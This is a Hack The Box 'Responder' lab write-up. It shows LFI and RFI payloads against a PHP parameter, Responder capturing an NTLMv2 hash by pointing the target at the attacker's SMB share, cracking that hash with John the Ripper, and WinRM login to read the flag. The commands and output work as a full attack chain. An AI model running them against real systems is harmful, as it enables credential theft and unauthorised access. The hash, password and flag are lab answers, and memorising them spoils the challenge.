

# Responder (Windows)

## Machine Details 

- **CTF:** Hack The Box
- **Category:** Tier 1

## Solution

#### 1. When visiting the web service using the IP address, what is the domain that we are being redirected to?

> unika.htb

*(`echo "10.129.64.55 unika.htb" | sudo tee -a /etc/hosts`)*

#### 2. Which scripting language is being used on the server to generate webpages?

> php

#### 3. What is the name of the URL parameter which is used to load different language versions of the webpage?

> page

#### 4. Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

> ../../../../../../../../windows/system32/drivers/etc/hosts

#### 5. Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

> //10.10.14.6/somefile

#### 6. What does NTLM stand for?

> New Technology Lan Manager

#### 7. Which flag do we use in the Responder utility to specify the network interface?

-I

#### 8. There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?.

> John The Ripper

#### 9. What is the password for the administrator user?

We will use [Responder](https://github.com/SpiderLabs/Responder) for that:

*(`As I am on `MacOS` my command will slightly differ)*

```sh
$ sudo /usr/local/bin/python3.11 tools/Responder/Responder.py -i 10.10.14.107
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.4.0

  To support this project:
  Github -> https://github.com/sponsors/lgandx
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

[+] You don't have an IPv6 address assigned.

[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [OFF]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [None]
    Responder IP               [10.10.14.107]
    Responder IPv6             [::1]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']

[+] Current Session Variables:
    Responder Machine Name     [WIN-4LZTYLXWUYU]
    Responder Domain Name      [GCXT.LOCAL]
    Responder DCE-RPC Port     [48495]

[+] Listening for events...

[!] Error starting UDP server on port 5355, check permissions or other servers running.
[!] Error starting UDP server on port 5353, check permissions or other servers running.
```

And then send request to `http://unika.htb/index.php?page=//10.10.14.107/somefile`, where `10.10.14.107` is local IP:



But we get this in `Terminal`:

```sh
[SMB] NTLMv2-SSP Client   : 10.129.64.55
[SMB] NTLMv2-SSP Username : RESPONDER\Administrator
[SMB] NTLMv2-SSP Hash     : Administrator::RESPONDER:01d324c333446eba:B762B3DFED5E03FDF8D3827A7138B85F:01010000000000000059F1FFAD6CDA0146BBE68BCE39B1C80000000002000800470043005800540001001E00570049004E002D0034004C005A00540059004C005800570055005900550004003400570049004E002D0034004C005A00540059004C00580057005500590055002E0047004300580054002E004C004F00430041004C000300140047004300580054002E004C004F00430041004C000500140047004300580054002E004C004F00430041004C00070008000059F1FFAD6CDA0106000400020000000800300030000000000000000100000000200000B67A22CA6412E8DF22BAC4A119360316C9D3FD7037B340DE3DECF4680C3F91550A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E003100300037000000000000000000
```

Next we need to crack this hash using [john](https://www.openwall.com/john/):

```sh
echo "Administrator::RESPONDER:01d324c333446eba:B762B3DFED5E03FDF8D3827A7138B85F:01010000000000000059F1FFAD6CDA0146BBE68BCE39B1C80000000002000800470043005800540001001E00570049004E002D0034004C005A00540059004C005800570055005900550004003400570049004E002D0034004C005A00540059004C00580057005500590055002E0047004300580054002E004C004F00430041004C000300140047004300580054002E004C004F00430041004C000500140047004300580054002E004C004F00430041004C00070008000059F1FFAD6CDA0106000400020000000800300030000000000000000100000000200000B67A22CA6412E8DF22BAC4A119360316C9D3FD7037B340DE3DECF4680C3F91550A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E003100300037000000000000000000" > hash.txt
$ john --wordlist=dictionaries/rockyou.txt hash.txt 
Warning: detected hash type "netntlmv2", but the string is also recognized as "ntlmv2-opencl"
Use the "--format=ntlmv2-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Warning: invalid UTF-8 seen reading ./tools/john/run/john.pot
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
badminton        (Administrator)     
1g 0:00:00:00 DONE (2024-03-02 14:35) 50.00g/s 169600p/s 169600c/s 169600C/s hellboy..stargirl
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```

> badminton

#### 10. We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?

> 5985

#### Submit root flag

```sh
$ python3
Python 3.11.8 (v3.11.8:db85d51d3e, Feb  6 2024, 18:02:37) [Clang 13.0.0 (clang-1300.0.29.30)] on darwin
Type "help", "copyright", "credits" or "license" for more information.
>>> import winrm
>>> session = winrm.Session('10.129.68.32', auth=('administrator','badminton'), transport='ntlm')
>>> session.run_ps("whoami").std_out
b'responder\\administrator\r\n'
>>> for line in session.run_ps("cd ..;dir").std_out.decode('utf-8').split('\r\n'): print(line) if line.strip() else None 
... 
    Directory: C:\Users
Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d-----          3/9/2022   5:35 PM                Administrator                                                        
d-----          3/9/2022   5:33 PM                mike                                                                 
d-r---        10/10/2020  12:37 PM                Public 
>>> for line in session.run_ps("cd ..\mike;dir").std_out.decode('utf-8').split('\r\n'): print(line) if line.strip() else None
... 
    Directory: C:\Users\mike
Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d-----         3/10/2022   4:51 AM                Desktop
>>> for line in session.run_ps("cd ..\mike\desktop;dir").std_out.decode('utf-8').split('\r\n'): print(line) if line.strip() else None
... 
    Directory: C:\Users\mike\desktop
Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----         3/10/2022   4:50 AM             32 flag.txt
>>> for line in session.run_ps("type ..\mike\desktop\\flag.txt").std_out.decode('utf-8').split('\r\n'): print(line) if line.strip() else None
... 
ea81b7afddd03efaa0945333ed147fac
```


## Final Flag

> ea81b7afddd03efaa0945333ed147fac

*Created by [bu19akov](https://github.com/bu19akov)*